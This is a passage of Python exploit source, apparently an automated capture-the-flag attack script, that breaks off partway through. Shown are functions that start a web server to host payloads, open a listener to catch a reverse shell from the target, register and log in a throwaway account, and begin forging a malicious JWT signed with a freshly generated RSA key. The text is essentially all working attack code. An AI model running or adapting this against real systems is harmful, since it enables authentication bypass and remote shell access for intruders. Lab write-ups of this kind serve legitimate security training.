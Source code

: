 ```py
'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True
        thread.start()
    else:
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Set the handler to receive the reverse shell back
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target)
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# First we need to create a simple user
def createUser(rhost):
    print("[+] Let's create the user !! [+]")
    url = "http://%s:80/register" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "0x4rt3mis", "password": "123456", "email": "0x4rt3mis@email.com"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] User created !! [+]")
    
# Now let's just login to get the token
def loginUser(rhost):
    print("[+] Let's log in as 0x4rt3mis !! [+]")
    url = "http://%s:80/login" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "0x4rt3mis", "password": "123456"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    r.get(url)
    global cookie
    cookie = r.cookies.get_dict()
    cookie = cookie['uuid']

# Now let's create the token
def createToken(lhost):
    print("[+] Let's create the malicious jwt token !! [+]")
    print("[+] Let's creat the key.key !! [+]")
    os.system("openssl genrsa -out key.key 2048 2>/dev/null")
    print("[+] Openssl Key Created !!! [+]")
    private_key = open("key.key", "r")
    private_key = private_key.read().rstrip()
    global encoded
    encoded = jwt.encode(
```